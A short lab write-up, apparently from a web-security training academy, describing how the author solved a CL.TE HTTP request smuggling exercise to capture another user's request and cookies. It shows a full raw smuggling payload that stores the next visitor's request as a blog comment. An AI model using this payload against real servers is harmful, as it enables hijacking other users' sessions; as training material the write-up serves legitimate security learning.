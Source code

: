 # Practitioner Lab 133: Exploiting HTTP request smuggling to capture other users' requests

---

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to be stored in the application. Then retrieve the next user's request and use the victim user's cookies to access their account.

![Untitled](Practitioner%20Lab%20133%20Exploiting%20HTTP%20request%20smugg%2009ab040770df49e8b2806ea0ff2db500/Untitled.png)

This is a CLTE

![Untitled](Practitioner%20Lab%20133%20Exploiting%20HTTP%20request%20smugg%2009ab040770df49e8b2806ea0ff2db500/Untitled%201.png)

I tested this to see how it would work if I changed the order of the parameters. 

![Untitled](Practitioner%20Lab%20133%20Exploiting%20HTTP%20request%20smugg%2009ab040770df49e8b2806ea0ff2db500/Untitled%202.png)

This was a test to see if my email would post correctly, Now I can find to see if I can get the victim to post. 

![Untitled](Practitioner%20Lab%20133%20Exploiting%20HTTP%20request%20smugg%2009ab040770df49e8b2806ea0ff2db500/Untitled%203.png)

![Untitled](Practitioner%20Lab%20133%20Exploiting%20HTTP%20request%20smugg%2009ab040770df49e8b2806ea0ff2db500/Untitled%204.png)

```
POST / HTTP/1.1
Host: 0a970092033166d98173575f00b700c7.web-security-academy.net
Cookie: session=ETbxO1thi5mRAtGeZhBt2N7ghaSmpEke
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a970092033166d98173575f00b700c7.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 339
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0a970092033166d98173575f00b700c7.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=ETbxO1thi5mRAtGeZhBt2N7ghaSmpEke
Content-Length: 950

csrf=6HJWPRoqxI41dE10AVNVdSTPCvoYyboJ&postId=6&name=XVICTIM%40new&email=VICTIM%40me&website=https://eyes.com&comment=X
```

Using a payload like this it worked out.